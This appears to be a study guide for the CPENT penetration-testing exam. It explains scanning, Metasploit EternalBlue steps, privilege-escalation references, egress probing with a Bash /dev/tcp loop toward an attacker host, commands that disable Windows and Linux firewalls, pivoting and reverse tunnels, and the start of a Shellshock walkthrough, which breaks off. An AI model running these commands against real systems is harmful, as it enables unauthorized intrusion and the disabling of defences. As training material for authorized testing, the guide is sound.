# CPENT Exam Notes (Vincent) — Bit-by-Bit Explained

Study companion for the HackMD note [[CPENT-exam-notes-Vincent-hackmd]]. That file is the raw download (commands + slide screenshots). This file explains **what each section means**, **why each command exists**, and **how pieces connect**, with Mermaid diagrams for Obsidian.

> Exam context: CPENT is a long practical cyber-range exam. Flow is usually **discover → enumerate → exploit → escalate → pivot → post-exploit → report**. These notes map to that chain.

---

## Master exam workflow


---

## 1. SCAN — find live hosts and open ports

### 1.1 Host discovery with Nmap (no port scan)

```bash
sudo nmap -n -sn -PS22,80,445,3389 192.168.0.1-254 -oG ip_scan.txt
grep Up ip_scan.txt | cut -d" " -f2
```

| Flag / piece | Meaning |
|---|---|
| `-n` | No DNS lookups (faster, quieter in labs) |
| `-sn` | Ping scan only — **no port scan** |
| `-PS22,80,445,3389` | TCP SYN “ping” to common ports (works when ICMP is blocked) |
| `192.168.0.1-254` | Entire /24 |
| `-oG` | Grepable output for scripting |
| `grep Up … cut` | Extract only live IPs |

**Idea:** First answer “who is alive?”, not “what is open?”.



### 1.2 Bash ping sweep (fallback)

```bash
for i in {1..254}; do (ping -c 1 192.168.0.$i | grep "bytes from" &); done
```

- Parallel ICMP ping of the subnet.
- Needs ICMP allowed; Nmap `-PS` is better when ICMP is filtered.
- (Original note omitted `1` after `-c`; correct form is `-c 1`.)

### 1.3 Port range strategies

```bash
sudo nmap -p 1-1024          # well-known ports
sudo nmap -p 1024-           # high ports
sudo nmap -p -               # all 65535 TCP ports
sudo nmap -n scanme.nmap.org -p22,25,80,135 --reason
```

| Syntax | What it scans |
|---|---|
| `-p 1-1024` | Privileged / common service range |
| `-p 1024-` | Ephemeral/high ports |
| `-p -` | Full TCP range (slow; use late) |
| `--reason` | Why Nmap marked port open/closed/filtered |

**Exam tip:** Scan smart first (top ports / known services), full scan only when needed.

### 1.4 RustScan → Nmap handoff

```bash
sudo dpkg -i rustscan_2.0.1_amd64.deb
rustscan -u 5000 -t 7000 -a 192.168.0.7
rustscan -u 5000 -t 7000 --script none -a 192.168.0.7
rustscan -u 5000 -t 7000 -a 192.168.0.7 -- -Pn -sVC -oA 7_host
```

| Piece | Meaning |
|---|---|
| `-u 5000` | Batch / ulimit style concurrency |
| `-t 7000` | Timeout (ms) |
| `-a` | Target address |
| `--script none` | Skip Nmap scripts on first pass |
| `-- -Pn -sVC -oA` | Pass remaining flags to Nmap on discovered ports |



### 1.5 Exploit example: MS17-010 (EternalBlue)

When SMB (445) is open and OS is vulnerable:

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 192.168.0.7
check
exploit
```



---

## 2. ENUMERATION — turn open ports into attack surface

From the slides: after discovery, run **service/version + scripts** and remember **UDP** too.

### 2.1 Targeted service discovery

```bash
# UDP candidates (DNS, TFTP, SNMP, SSDP, mDNS)
# UDP SCAN 53, 69, 161, 1900, 5353

sudo nmap -n -p445,3389 192.168.0.8,20 -sVC
sudo nmap -n -p22,80 192.168.0.24,70 -sVC
```

| Flag | Meaning |
|---|---|
| `-sV` | Version detection |
| `-sC` | Default NSE scripts |
| `-sVC` | Both together |

**Pattern:** group hosts by likely role (Windows SMB/RDP vs Linux SSH/HTTP), then scan only relevant ports.



### 2.2 What “good enum” looks like in CPENT

For each open service, capture:

1. Product + version  
2. Auth required? default creds?  
3. Known CVE / misconfig  
4. Can it become a foothold, pivot, or loot path?

---

## 3. Privilege Escalation — low → high

### Linux (from notes)

| Technique | Idea |
|---|---|
| **Dirty COW** | Old kernel race on `/proc/self/mem`; classic `/etc/passwd` overwrite path ([EDB 40847](https://www.exploit-db.com/exploits/40847)) |
| **PwnKit** | `pkexec` (CVE-2021-4034) local root |
| **LXD group** | User in `lxd` can mount host FS into a privileged container ([EDB 46978](https://www.exploit-db.com/exploits/46978)) |



**Always check first:** `uname -a`, `id`, `sudo -l`, SUID, capabilities, cron, writable service files — exploit only when evidence matches.

---

## 4. Egress Busting — which outbound ports leave the network?

Many labs allow **inbound SSH** to the target but restrict **outbound** reverse shells. You must find which ports the firewall allows **out**.

### 4.1 Concept


### 4.2 Commands from the notes

On **target** (scan attacker):

```bash
nc -nvvz <Parrot> 1-1024
```

On **attacker** (see what arrives):

```bash
tcpdump -ni eth1 'tcp[13]==2'
# or Wireshark — filter for SYN packets
```

`tcp[13]==2` means TCP flags byte with only **SYN** set.

### 4.3 Pure Bash outbound check (slide script)

```bash
for port in {1..100}; do
  timeout 1 bash -c "echo >/dev/tcp/ATTACKER/$port" &&
    echo "port $port is open" ||
    echo "port $port is closed"
done
```

Uses Bash `/dev/tcp` — no `nc` required if Bash is available.

**After you find an allowed egress port:** bind listener on that port and fire a reverse shell through it.

---

## 5. Persistent — keep access / reduce friction

Slide content focuses on **disabling host firewalls** (lab convenience — document carefully in a real report):

**Windows**

```bash
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
```

**Linux**

```bash
sudo iptables -S
sudo iptables -P INPUT ACCEPT
sudo iptables -P OUTPUT ACCEPT
```

True persistence (beyond the slide) often includes: scheduled tasks, services, SSH keys, registry Run keys, etc. CPENT still expects you to **prove** and **document** how access was retained.

---

## 6. POST — hunt files and secrets on the box

### Windows

```bash
dir /s <FILE_NAME> 2>nul
findstr /n /i /s <KEYWORD> *
```

### Linux

```bash
find / -name <FILE_NAME> -print 2>/dev/null
grep -nir <KEYWORD> .
```



Common loot: flags, password files, configs, SSH keys, browser/history, scripts with creds.

---

## 7. OT — industrial / Modbus traffic

```bash
sudo tcpdump tcp port 502 -v -w modbus.pcap
```

Then in Wireshark:

1. **View → Name Resolution → Resolve Physical Addresses**
2. **Statistics → Resolved Addresses**
3. Identify vendors from MAC OUIs (e.g. `00:0a:e4` → Wistron)



**Why it matters:** OT segments often speak Modbus/TCP (502). Capture → identify PLCs/gateways → map assets for the report.

---

## 8. Pivoting & Double Pivoting (跳台 / 雙跳台)

### 8.1 Two mental models





Top = you interactively jump. Bottom = traffic is forwarded so tools on your machine talk to the deep target.

### 8.2 SSH Local Forward (`-L`)

```bash
ssh -L 80:192.168.0.24:80 administrator@192.168.0.70
```

Browse `http://127.0.0.1:80` on attacker → traffic exits hop `0.70` toward `0.24:80`.



### 8.3 SSH Remote Forward (`-R`) + GatewayPorts

```bash
ssh -R *:8008:192.168.0.24:80 administrator@192.168.0.70
# On SSH server:
# GatewayPorts yes in sshd_config, then restart ssh
```

Makes a port on the **remote** (hop) listen and forward to a host the hop can reach. `GatewayPorts yes` allows binding on non-localhost interfaces.

### 8.4 SSH Dynamic SOCKS (`-D`) + proxychains

```bash
ssh -D 9050 administrator@192.168.0.70
# edit /etc/proxychains.conf → socks4/5 127.0.0.1 9050
proxychains nmap ...
```

Any proxychains-aware tool now routes through the hop.

### 8.5 Jump host (`-J`) — double hop in one SSH

```bash
ssh -J administrator@192.168.0.70 administrator@192.168.0.10 -L *:8888:192.168.0.24:80
```



### 8.6 Metasploit autoroute

```text
use exploit/multi/ssh/sshexec
set RHOSTS ...
set USERNAME ...
set PASSWORD ...
exploit

run post/multi/manage/autoroute
run autoroute -p
background
```

Adds routes through a Meterpreter session so MSF modules can reach the next subnet.

### 8.7 Datapipe / socat / netsh portproxy

**datapipe** — simple TCP relay (notes: raise connection limit in source, then compile):

```bash
datapipe 0.0.0.0 135 <WIN> 135
datapipe 0.0.0.0 445 <WIN> 445
datapipe 0.0.0.0 4444 <PARROT> 4444
```

**socat** — TCP + UDP:

```bash
socat tcp-listen:80,fork tcp:<IP>:80
socat udp-recvfrom:161,fork udp-sendto:<IP>:161
```

**Windows built-in:**

```bash
netsh interface portproxy add v4tov4 listenport=80 connectaddress=<IP> connectport=80
netsh interface portproxy show v4tov4
```

### 8.8 Chisel (slide)

```bash
# Server (attacker / reachable side)
chisel server -p 443

# Client (inside network)
chisel client <chisel_server>:443 R:445:<smb_target>:445
```



Port **443** is often allowed outbound; **445** is the SMB service you want to reach.

---

## 9. IoT — firmware crypto / XOR workflow

Stack reminder from slides:



Bootloader sits at the Firmware↔OS boundary (sometimes drawn in either layer).

### 9.1 Analyze encrypted blob

```bash
binwalk -t encrypted.bin          # signatures / entropy table
hexdump -v -C encrypted.bin
binwalk -E encrypted.bin          # entropy graph (high = likely encrypted/compressed)
hexdump -v -C encrypted.bin | cut -d" " -f3-20 | sort | uniq -c | sort -nr | head -n 20
```

High repeated bytes → possible weak XOR / padding.

### 9.2 Decrypt with known XOR key (`xcat.py`)

```bash
chmod +x xcat.py
./xcat.py -x <xor_key> encrypted.bin > decrypted.bin
binwalk -t decrypted.bin
```

### 9.3 Recover key with `xortool`

```bash
python3 -m pip install xortool
xortool encrypted.bin
xortool encrypted.bin -l 8 -c 00
binwalk -t -e xortool_out/0.out
cat xortool_out/filename-key.csv
python -c "print(b'\x88D\xa2\xd1h\xb4Z-'.hex())"
```

| Step | Purpose |
|---|---|
| `xortool file` | Guess key length |
| `-l 8 -c 00` | Force length 8; charset hint |
| `binwalk -e` | Extract embedded FS/files after decrypt |
| `.hex()` | Convert recovered key bytes to hex string |



---

## 10. BINARY — PE/ELF, compile chain, debugging

### 10.1 From C source to memory


Typical process memory (low → high address):



### 10.2 Useful analysis commands

```bash
strings ./crackme0x00a | grep GLIBC
objdump -d /bin/bash
objdump -d -M intel /bin/bash

gdb -q /bin/bash
break main
run
info registers
```

| Tool | Use |
|---|---|
| `strings` | Quick IOCs / libc version hints |
| `objdump -d` | Disassemble |
| `-M intel` | Intel syntax (often easier to read) |
| `gdb` | Live registers / breakpoints |

Reference reading from the original note:

- Windows PE format (MSDN magazine parts 1–2)
- ELF format / section–segment VMA mappings (archive links in source note)

---

## 11. AD PT — Active Directory attack path thinking

### 11.1 Forest / tree / trust model



Admin scopes:

| Group | Scope |
|---|---|
| Administrators | Local on a DC |
| Domain Admins | Domain |
| Enterprise Admins | Forest |

AD/DS building blocks: **DNS**, **Kerberos**, **LDAP**, **Global Catalog (TCP 3268)**.

### 11.2 Kerberos + attack annotations



### 11.3 ADRecon (enum)

```powershell
powershell.exe -nop -ep bypass
# Domain-joined:
./ADRecon.ps1
# Not domain-joined:
./ADRecon.ps1 -DomainController 192.168.177.19 -OutputType ALL -Credential lpt.com\cpent
```

Produces structured AD reports (users, groups, trusts, SPNs, etc.) for path finding.

---

## 12. Web to RCE — Shellshock path (example)

### 12.1 Stack

```mermaid
flowchart LR
  B[Browser] -->|HTTP/HTTPS| A[Apache]
  A --> C[CGI]
  C --> SH[Bash]
  SH --> SCR[Shell script]
```

If CGI scripts are served by Bash (old `mod_cgi` setups), **Shellshock (CVE-2014-6271)** can inject commands via crafted environment variables / headers.

### 12.2 Walkthrough from notes

**On target (lab prep):**

```bash
cd /usr/lib/cgi-bin/
sudo mv shellshock keygen
```

**On attacker:**

```bash
dirb http://192.168.0.24
dirb http://192.168.0.24/cgi-bin
sudo apt install gobuster
